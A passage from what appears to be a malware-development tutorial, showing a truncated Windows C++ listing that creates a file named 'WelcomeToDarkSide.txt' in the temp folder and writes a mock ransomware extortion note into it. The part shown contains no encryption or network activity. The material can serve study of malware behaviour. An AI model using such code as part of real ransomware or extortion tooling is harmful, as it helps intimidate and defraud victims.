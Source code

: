 ![P8](/assets/images/malware-development/5-7.png)

The full code:
```cpp
#include <windows.h>
#include <Wininet.h>
#include <wchar.h>
#include <stdio.h>
#include <string.h>

void FileAct() {

  char tempPath[MAX_PATH];
  DWORD result = GetTempPathA(MAX_PATH, tempPath);
  if (result == 0) {
    printf("Failed to get the temporary directory path.\n");

  }

  // Create the file path in the temporary directory
  char filePath[MAX_PATH];
  sprintf(filePath, "%sWelcomeToDarkSide.txt", tempPath);

  // Open the file for writing
  HANDLE hFile = CreateFileA(filePath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("Failed to create the file. Error code: %lu\n", GetLastError());
  }

  // Write the string to the file
  const char* data = "You have been infected with a Ransomware, please call me so I can give you my bank account to pay\n Number: 911";
  DWORD bytesWritten;
  result = WriteFile(hFile, data, strlen(data), &bytesWritten, NULL);
  if (!result) {
    printf("Failed to write to the file. Error code: %lu\n", GetLastError());
    CloseHandle(hFile);
```